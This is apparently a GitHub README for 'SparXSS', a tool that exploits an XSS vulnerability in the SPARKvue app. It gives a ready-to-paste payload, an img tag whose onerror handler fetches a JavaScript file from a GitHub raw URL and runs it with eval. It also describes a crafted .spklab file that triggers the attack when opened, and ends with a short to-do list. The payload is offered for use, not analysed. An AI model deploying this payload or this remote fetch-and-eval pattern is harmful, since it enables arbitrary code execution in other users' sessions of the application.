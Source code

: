 # SparXSS

## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:<br>```<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r => r.text()).then(c => eval(c))'>```

You Can Also Use The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

# ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)
